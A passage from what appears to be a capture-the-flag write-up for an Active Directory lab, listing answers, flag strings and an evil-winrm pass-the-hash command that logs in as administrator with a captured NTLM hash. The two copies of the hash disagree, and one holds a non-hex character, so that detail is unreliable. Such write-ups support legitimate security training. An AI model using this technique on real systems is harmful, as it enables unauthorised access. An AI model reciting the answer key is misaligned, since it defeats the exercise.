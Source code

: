 ### Flag 7.2
#### What is the Administrators NTLM hash?
> `0e0363213e37b94221497260erbcb4fc`
#### Explanation
![](https://i.imgur.com/bD5Z10P.png)

### Flag 7.3
#### What method of attack could allow us to authenticate as the user without the password?
> `Pass the Hash`


### Flag 7.4
#### Using a tool called Evil-WinRM what option will allow us to use a hash?
> `-H`

#### Explanation
![](https://i.imgur.com/ctRxPeL.png)


---

## Task 08: Flag Submission Panel

### Flag Submission Panel

Submit the flags for each user account. They can be located on each user's desktop.

### Flags Task.1
#### svc-admin
>`TryHackMe{K3rb3r0s_Pr3_4uth}`

### Flags Task.1
#### backup
>`TryHackMe{B4ckM3UpSc0tty!}`

### Flags Task.1
#### Administrator
>`TryHackMe{4ctiveD1rectoryM4st3r}`

#### Explanation

Run `evil-winrm` with `administrator` hash and copy the flags

```bash
┌─[✗]─[mentor@attackerVM]─[~/thm/attacktivedirectory]
└──╼ $evil-winrm -i 10.10.8.212 -u administrator -H 0e0363213e37b94221497260b0bcb4fc
```

---